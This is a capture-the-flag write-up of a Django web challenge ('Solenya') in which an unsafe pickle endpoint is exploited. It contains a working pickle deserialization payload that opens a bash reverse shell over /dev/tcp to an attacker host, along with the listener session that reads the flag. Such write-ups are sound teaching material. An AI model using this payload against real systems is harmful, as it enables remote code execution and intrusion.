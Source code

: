 # Solenya, web300

Challenge text: "Whatever this thing is, it's shaming us. 172.31.2.105".

So we start off with only an IP address, that does not respond on port 80. We quickly try a few other common ports, and it turns out that a webserver is being hosted on port 8000. We are greeted by an image of 'Pickle Rick':

![Pickle Rick](https://github.com/noproplem/defcon_openctf_2018/blob/master/solenya/images/1.png)

There isn't much going on besides the image, so we check for a /robots.txt file. Turns out that there is a robots.txt file, and it contains LOTS of references to subdirs on the website. These should all be enumerated and hopefully one of them will be interesting. However, before setting up something to do that, lets jsut check a few manually.

By visting a random subdir from the robots.txt file we get a Django debug message - since the Django installation apparently is in debug mode. The message mentions the subdirs: /wubbalubbadubdub and /fingerprint. This seems interesting. Visiting http://172.31.2.105:8000/fingerprint we see an image of Birdman, and on http://172.31.2.105:8000/wubbalubbadubdub there is a login prompt. We try a few common sets of credentials: admin/password and so on, but no luck.

The name of the challenge, "Solenya", and the "pickle Rick" references could very likely be a hint about Pickle (https://docs.python.org/3/library/pickle.html), which is used to serialize python objects. Since the webpage runs Django this seems likely. Exploiting pickle to deserialize an object that gives code executin is a common trick (https://blog.nelhage.com/2011/03/exploiting-pickle/), so we basically just need to find out how to send some data that will be deserialzied by the website, then create and send our payload.

After playing around with the login prompt we see that after a login attempt a huge POST request is mad eto /fingerprint:

```
POST /fingerprint/ HTTP/1.1
Host: 172.31.2.105:8000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.31.2.105:8000/wubbalubbadubdub/login/?next=/wubbalubbadubdub/
content-type: application/json; charset=utf-8
token: SSdtIFBpY2tsZSBSaWNrIQ==
origin: http://172.31.2.105:8000
Content-Length: 34686
Cookie: csrftoken=eVxZrS4DcdnACesJcLtxLq8hfFVXnnY1UgTUyx6yb6Ac1yeWRXrerGtX0zjWC1dz
Connection: close

S'{"hash":"58c9ee941b8434d28dd5692628dc2ff9","vectors":[{"key":"user_agent","value":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0"},{"key":"language","value":"en-US"},{"key":"color_depth","value":24},{"key":"device_memory","value":-1},{"key":"hardware_concurrency","value":4},{"key":"resolution","value":[1280,720]},{"key":"available_resolution","value":[1215,696]},{"key":"timezone_offset","value":420},{"key":"session_storage","value":1},{"key":"local_storage","value":1},{"key":"indexed_db","value":1},{"key":"cpu_class","value":"unknown"},{"key":"navigator_platform","value": . . . (continues)
```

The body looks like a serialized object. Lets see how it is made. On http://172.31.2.105:8000/wubbalubbadubdub/ there is a reference to http://172.31.2.105:8000/static/base.min.js which has:
```
(snippet)
new Fingerprint2().get(function(hash, vectors) {
    const data = {
        hash: hash,
        vectors: vectors
    };
    const json_data = JSON.stringify(data);
    const pickle_data = pickle.dumps(json_data);
    const url = `${window.location.origin }/fingerprint/`;
    fetch(url, {
        method: "POST",
        mode: "cors",
        cache: "no-cache",
        credentials: "same-origin",
        headers: {
            "Content-Type": "application/json; charset=utf-8",
            "Token": "SSdtIFBpY2tsZSBSaWNrIQ=="
        },
        redirect: "follow",
        body: pickle_data
    })
});
```

So we can see that indeed the body is just a nonencoded pickle object. Time to create pickle object that gives us a shell:

```python
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/bash','-c', 'bash >/dev/tcp/172.31.127.232/8181 0>&1 2>&1'),))
    #return (subprocess.Popen, (('/bin/nc','172.31.127.232','8181'),))

print cPickle.dumps(RunBinSh())
cPickle.loads(cPickle.dumps(RunBinSh()))
```
We send this using burp proxy while having a nc listener on our own host:

```
nc -lp 8181

ls -lah
total 118M
drwxr-xr-x 5 jaguar jaguar 4.0K Aug  9 06:20 .
drwxr-xr-x 3 root   root   4.0K Aug  9 06:14 ..
drwxr-xr-x 3 jaguar jaguar 4.0K Aug  9 06:20 app
-r--r--r-- 1 jaguar jaguar   79 Aug  9 06:20 .flag
-rwxr-xr-x 1 jaguar jaguar  535 Aug  9 06:12 manage.py
-rw-r--r-- 1 jaguar jaguar  164 Aug  9 06:12 nginx-solenya
-rw-r--r-- 1 jaguar jaguar   24 Aug  9 06:12 requirements.txt
-rwxr-xr-x 1 jaguar jaguar 3.4K Aug  9 06:12 setup.sh
-rw-r--r-- 1 jaguar jaguar  199 Aug  9 06:12 solenya-uwsgi.service
drwxr-xr-x 2 jaguar jaguar 4.0K Aug  9 06:12 static
drwxr-xr-x 2 jaguar jaguar 4.0K Aug  9 06:12 templates
-rw-r--r-- 1 jaguar jaguar  238 Aug  9 06:12 uwsgi.ini
-rw-r----- 1 jaguar jaguar 118M Aug 11 20:30 uwsgi.log
cat .flag
--He crawls from bowls of cold soup to steal the dreams of wasteful children--
```

So there we have it "--He crawls from bowls of cold soup to steal the dreams of wasteful children--".
